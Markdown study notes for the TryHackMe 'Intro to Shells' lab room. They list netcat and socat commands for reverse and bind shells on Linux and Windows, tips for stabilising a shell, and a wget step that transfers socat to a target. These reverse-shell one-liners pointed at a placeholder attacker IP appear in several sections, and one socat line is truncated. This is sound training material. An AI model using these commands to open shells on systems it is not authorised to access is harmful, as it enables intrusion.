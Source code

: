 # Room
https://tryhackme.com/room/introtoshells

# Task 1 - What is a shell?
## Shell Programs
* Linux: sh, bash
* Windows: cmd, powershell
## Shell Types
* Reverse - target connects back to you
* Bind - target opens a port for you to connect to it

# Task 2 - Tools
* netcat - used for reverse and bind shells
* socat - more powerful version of netcat, stable
* metasploit multi/handler - reverse and bind shells, meterpreter shell, payload staging
* msfvenom - create payloads for reverse and bind shells

# Task 3 - Types of Shell
* Reverse - target connects back to your listener
    * Local: sudo nc -nvlp 8888
    * Remote: nc [local_ip] 8888 -e /bin/bash
* Bind - target opens a port for you to connect to
    * Remote: sudo nc -nvlp 8888 -e /bin/bash
    * Local: nc [remote_ip] 8888
* Interactive VS Non-Interactive shells - Interactive shells are the standard experience you are used to when using bash or powershell, you can run all commands, etc.  Non-Interactive shells only allow you to run commands successfully that do not require input, such as ls or dir, commands that require input would not work, such as sudo -l

# Task 4 - Netcat
## Reverse Shell
* sudo nc -nvlp [local_port]
    * -n - don't resolve with DNS
    * -v - verbose
    * -l - create a listener
    * -p - use the following port
    * [local_port] - the port for incoming connections
## Bind Shell
* nc [remote_ip] [remote_port]
    * [remote_ip] - IP that has a listener
    * [remote_port] - port open on the listener

# Task 5 - Netcat Shell Stabalization
Netcat shells aren't stable and are non-interactive by default
* Stabilize with Python
    * upgrade to bash - python -c 'import pty;pty.spawn("/bin/bash")
    * upgrade to term commands - export TERM=xterm
    * upgrade to autocomplete, etc - CTRL+Z, stty raw -echo; fg
    * if the shell dies, type reset and then enter
* Stabilize with rlwrap
    * install first - sudo apt install rlwrap
    * to use - sudo rlwrap nc -nvlp [local_port]
* Stabilize with Socat
    * use netcat to get an initial shell
    * host socat - sudo python3 -m http.server 80
    * transfer socat - wget http://[remote_ip]/socat -O /tmp/socat
    * go through socat setup process to upgrade to that shell
* Change terminal tty size
    * make note of rows and columns - stty -a
    * update rows using number above - stty rows [number]
    * update columns using number above - stty cols [number]
    * changing these values allow text editors and other tools to display properly

# Task 6 - Socat
Provides a link between two points
## Reverse Shell
* Local: socat TCP-L:[local_port]
* Remote (Windows): socat TCP:[local_ip]:[local_port] EXEC:powershell.exe,pipes
    * pipes forces powershell to use Unix standard IO
* Remote (Linux): socat TCP:[local_ip]:[local_port] EXEC:"
## Bind Shell
* Remote (Linux): socat TCP-L:[remote_port] EXEC:"bash -li"
* Remote (Windows): socat TCP-L:[remote_port] EXEC:powershell.exe,pipes
* Local: socat TCP:[remote_ip]:[remote_port] -
## Stable Reverse Shell
* Local: socat TCP-L:[local] FILE:\`tty`,raw,echo=0
* Remote: socat TCP:[local_ip]:[local_port] EXEC:"bash -li",pty,stderr,sigint,setsid,sane
* This shell only works when the target is using Linux